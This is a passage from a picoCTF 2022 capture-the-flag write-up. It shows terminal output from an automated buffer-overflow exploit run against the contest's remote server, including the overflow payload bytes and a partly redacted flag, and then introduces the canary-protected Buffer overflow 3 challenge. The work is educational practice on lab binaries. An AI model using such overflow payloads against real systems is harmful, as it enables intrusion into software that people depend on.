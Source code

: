 Let's run it on the remote server:

{% ccb html:true wrapped:true terminal:true %}
<span class="meta prompt_">$ </span>python3 buffer-overflow-2-automated.py REMOTE
[<span style="color:#277FFF"><b>*</b></span>] Loaded 10 cached gadgets for &apos;./vuln&apos;
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;: pid 4993
[<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; stopped with exit code
-11 (SIGSEGV) (pid 4993)
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/core&apos;
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xffd07fc0
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos; (0x8048000)
    Fault:     0x62616164
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaa-
avaaawaaaxaaayaaazaabbaabcaab\x96\x\xf0\xfe\xca
picoCTF{argum3nt5_4_d4yZ_<span style="color:#696969"><b>[REDACTED]</b></span>}<span style="color:#EC0101"><b>$</b></span> [<span style="color:#277FFF"><b>*</b></span>] Got EOF while reading in interactive
{% endccb %}

We've successfully called a function with arguments through buffer overflow!

---

{% challenge %}
title: Buffer overflow 3
level: h2
description: |
  Do you think you can bypass the protection and get the flag?  It looks like Dr. Oswal added a stack canary to this [program](/static/picoctf-2022/buffer-overflow/vuln-3) to protect against buffer overflows. You can view source [here](/static/picoctf-2022/buffer-overflow/vuln-3.c). And connect with it using:  
  `nc saturn.picoctf.net [PORT]`
hints:
  - 1. Maybe there's a smart way to brute-force the canary?
size: 110%
authors:
  - Sanjay C.
  - Palash Oswal
genre: pwn/binary
solvers: enscribe
points: 300
files: '[vuln](/static/picoctf-2022/buffer-overflow/vuln-3), [vuln.c](/static/picoctf-2022/buffer-overflow/vuln-3.c)'
{% endchallenge %}
